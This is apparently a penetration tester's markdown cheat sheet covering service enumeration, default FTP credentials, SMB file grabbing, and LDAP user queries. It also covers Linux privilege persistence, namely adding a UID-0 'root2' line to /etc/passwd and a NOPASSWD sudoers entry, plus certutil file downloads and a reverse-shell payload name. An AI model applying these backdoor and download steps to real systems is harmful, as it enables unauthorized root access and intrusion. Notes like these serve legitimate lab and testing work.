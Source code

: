 1. Enumeration
  nmap port scan
  Common ports
  FTP
    Anonymous Login?
    Common Credentials? admin/admin
    
    
   smbclient get all files:
   recurse (toggles recursive mode)
   prompt (toggles Y/N requests)
   mget *
  
  Creating password hashes for /etc/passwd  or /etc/shadow
  
  ```
  openssl passwd -6 -salt xyz  yourpass
  -1 MD5
  -5 SHA256
  -6 SHA512
  ```  
  Sample root2:testing user for /etc/passwd
  ```
  root2:KWi2XW05LmkMg:0:0:root:/root:/bin/bash
  ```
Adding user to suoders file
```
user     ALL=(ALL:ALL) NOPASSWD:ALL
``` 
## Command Line 
### Linux  
Viewing formatted text files  
`less -R <file>`  

### Windows  
"Grep" function in Windows  
`findstr /I "<string>"` 

Query LDAP for users
`ldapsearch -H ldap://[IP]:[Port] -x -LLL -s sub -b "dc=<dcname>,dc=<dcname>"`

Downloading from Windows Command line  
`certutil.exe -urlcache -f http://target/remotefile localfile`

### Notes  

- when generating a shell on windows, use windows/shell_reverse_tcp
